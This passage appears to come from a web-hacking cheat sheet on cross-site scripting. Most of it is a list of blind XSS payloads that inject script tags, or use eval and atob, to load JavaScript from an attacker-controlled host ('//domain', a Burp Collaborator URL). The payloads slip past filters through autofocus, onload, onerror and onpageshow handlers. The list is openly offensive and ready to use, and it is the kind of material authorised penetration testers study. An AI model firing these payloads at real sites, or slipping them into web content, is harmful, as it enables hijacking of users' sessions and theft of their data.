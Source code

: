 ### Abusing Service Workers

{{#ref}}
abusing-service-workers.md
{{#endref}}

### Accessing Shadow DOM

{{#ref}}
shadow-dom.md
{{#endref}}

### Polyglots

{{#ref}}
https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/xss_polyglots.txt
{{#endref}}

### Blind XSS payloads

You can also use: [https://xsshunter.com/](https://xsshunter.com)

```html
"><img src='//domain/xss'>
"><script src="//domain/xss.js"></script>
><a href="javascript:eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">Click Me For An Awesome Time</a>
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//0mnb1tlfl5x4u55yfb57dmwsajgd42.burpcollaborator.net/scriptb");a.send();</script>

<!-- html5sec - Self-executing focus event via autofocus: -->
"><input onfocus="eval('d=document; _ = d.createElement(\'script\');_.src=\'\/\/domain/m\';d.body.appendChild(_)')" autofocus>

<!-- html5sec - JavaScript execution via iframe and onload -->
"><iframe onload="eval('d=document; _=d.createElement(\'script\');_.src=\'\/\/domain/m\';d.body.appendChild(_)')">

<!-- html5sec - SVG tags allow code to be executed with onload without any other elements. -->
"><svg onload="javascript:eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')" xmlns="http://www.w3.org/2000/svg"></svg>

<!-- html5sec -  allow error handlers in <SOURCE> tags if encapsulated by a <VIDEO> tag. The same works for <AUDIO> tags  -->
"><video><source onerror="eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">

<!--  html5sec - eventhandler -  element fires an "onpageshow" event without user interaction on all modern browsers. This can be abused to bypass blacklists as the event is not very well known.  -->
"><body onpageshow="eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">

<!-- xsshunter.com - Sites that use JQuery -->
<script>$.getScript("//domain")</script>

<!-- xsshunter.com - When <script> is filtered -->
"><img src=x id=payload&#61;&#61; onerror=eval(atob(this.id))>

<!-- xsshunter.com - Bypassing poorly designed systems with autofocus -->
"><input onfocus=eval(atob(this.id)) id=payload&#61;&#61; autofocus>

<!-- noscript trick -->
<noscript><p title="</noscript><img src=x onerror=alert(1)>">

<!-- whitelisted CDNs in CSP -->
```